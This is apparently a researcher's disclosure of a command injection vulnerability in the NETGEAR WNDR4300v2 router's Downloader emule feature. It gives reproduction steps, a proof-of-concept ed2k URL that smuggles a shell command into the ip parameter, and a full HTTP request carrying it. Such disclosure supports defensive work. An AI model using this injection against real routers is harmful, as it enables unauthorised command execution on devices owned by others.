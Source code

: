 Hi, I'm eack from Codesafe team of Legendsec at Qi'anxin Group .

Recently, I discovered that there is a command injection vulnerability in netgear's WNDR4300v2 router. The firmware version tested was v1.0.0.58. The details of the vulnerability are as follows:


Vulnerability location:
In NETGEAR Downloader (BETA), when using emule download, the ip and port parameters are not filtered, resulting in remote command injection.

First you have to make sure that USB is plugged into the router.

Then you need to turn on wireshark to monitor WLAN traffic.

Finally, you can verify the vulnerability by simply capturing, modifying, and replaying the packet through BurpSuite.

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563843935009.png)


The location of the vulnerability in the code:

Because IP and port parameters have a command injection vulnerability.

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563779263843.png)


Poc:

ed2k://|server|192.168.195.132\';ping 192.168.1.8;echo'|8000


Grab this package in BurpSuite and make the following changes:

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563843834060.png)

Can be verified by wireshark packet capture:

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563778026290.png)


HTTP Request:

```
POST /apply.cgi?/GREEN_emule_basic.htm%20timestamp=778486986003 HTTP/1.1
Host: 192.168.1.1
Content-Length: 358
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.1.1/GREEN_emule_basic.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:
auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOiI1OTczIiwiaXNzIjoid3d3Lm5ldGdlYXIuY29tIiwic3ViIjoiTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7IHg2NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQw==.37588a09eba998aae243f26431b404b0c8922f019cba11ea126ab8cdecbd470c
Connection: close

submit_flag=add_download_item&download_type=emule&save_usb_path=&green_download_open_flag=&enable_green_download=on&download_type_1=emule&download_url=ed2k%3A%2F%2F%7Cserver%7C192.168.195.132%5C%27%3Bping+192.168.1.8%3Becho%27%7C8000&Add=%E6%B7%BB%E5%8A%A0&priority_sel=4&priority_sel=4&priority_sel=4&select_ids=&select_ids_queuen=&priority_val=&file_type=2
```
